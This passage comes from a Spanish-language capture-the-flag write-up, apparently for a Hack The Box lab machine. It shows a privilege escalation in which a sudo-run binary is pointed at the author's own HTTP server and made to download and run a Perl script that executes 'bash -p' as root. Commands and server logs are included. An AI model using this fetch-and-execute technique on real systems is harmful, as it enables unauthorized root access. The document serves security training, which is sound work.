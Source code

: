 Vemos que efectivamente, descarga un binario con el nombre `lDnxUysaQn` aunque esta no es exitosa.
![Write-up Image](images/Screenshot_15.png)

`-rw-r--r--  1 root     root           0 Aug 13 20:25 lDnxUysaQn` este archivo es de `root` y en principio debería de ser un script en perl que luego se ejecutará.

## Exploiting our knowledge
Vamos a ver si como hemos visto en el código si estableciendo el primer parámetro mi IP me llega una petición de descarga.

```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

```shell
$ sudo binary http://10.10.14.85:8081/pointedsec lDnxUysaQn
Running... 
Exiting...
```

¡Perfecto!
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.203 - - [14/Aug/2024 00:31:55] code 404, message File not found
10.129.228.203 - - [14/Aug/2024 00:31:55] "GET /pointedsec HTTP/1.1" 404 -
```

Ahora simplemente serviremos un script en `perl` que se ejecutará en el sistema.

`privesc.`
```perl
#!/usr/bin/perl
use strict;
use warnings;

exec("bash -p");
```

Lo servimos por el puerto 8081 y al ejecutar el binario estableciendo este archivo como segundo parámetro..
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.203 - - [14/Aug/2024 00:32:56] "GET /privesc.pl HTTP/1.1" 200 -
```
